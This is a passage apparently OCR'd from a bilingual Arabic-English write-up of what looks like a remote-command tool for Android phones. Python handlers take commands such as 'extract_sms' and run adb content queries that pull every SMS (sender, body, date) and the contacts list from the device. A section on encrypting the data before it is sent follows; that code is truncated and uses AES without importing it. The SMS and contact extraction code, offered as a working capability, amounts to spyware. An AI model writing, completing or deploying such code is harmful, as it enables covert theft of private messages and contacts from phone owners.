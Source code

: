 ```python
        if 'name' in line and 'number' in line:
            contact = {
                'name': line.split('name=')[1].split(',')[0],
                'number': line.split('number=')[1].split(',')[0]
            }
            contacts.append(contact)
    
    return {"success": True, "contacts": contacts, "count": len(contacts)}
```

#### 6. **استخراج الرسائل النصية:**
```python
# الأمر المرسل
command = "extract_sms"
parameters = {}

# التنفيذ الفعلي على الجهاز
def execute_sms_extraction(parameters):
    import subprocess
    import json
    
    # استخراج الرسائل النصية
    sms_cmd = "adb shell content query --uri content://sms"
    sms_output = subprocess.check_output(sms_cmd, shell=True).decode()
    
    # تحليل البيانات
    messages = []
    for line in sms_output.split('\n'):
        if 'address' in line and 'body' in line:
            message = {
                'address': line.split('address=')[1].split(',')[0],
                'body': line.split('body=')[1].split(',')[0],
                'date': line.split('date=')[1].split(',')[0]
            }
            messages.append(message)
    
    return {"success": True, "messages": messages, "count": len(messages)}
```

---

## 5. تحليل الأمان والتشفير
### 5. Analysis of Security and Encryption

### ✅ **أ. نظام التشفير:**

```python
def encrypt_data(self, data: str, key: str) -> str:
    """تشفير البيانات المرسلة"""
    import hashlib
    import hmac
    import base64
    
    # إنشاء مفتاح التشفير
    encryption_key = hashlib.sha256(key.encode()).digest()
    
    # تشفير البيانات
    cipher = AES.new(encryption_key, AES.MODE_GCM)
    ciphertext, tag = cipher.encrypt_and_digest(data.encode())
    
    # إنشاء HMAC للتوقيع
    signature = hmac.new(encryption_key, ciphertext, hashlib.sha256).hexdigest()
    
```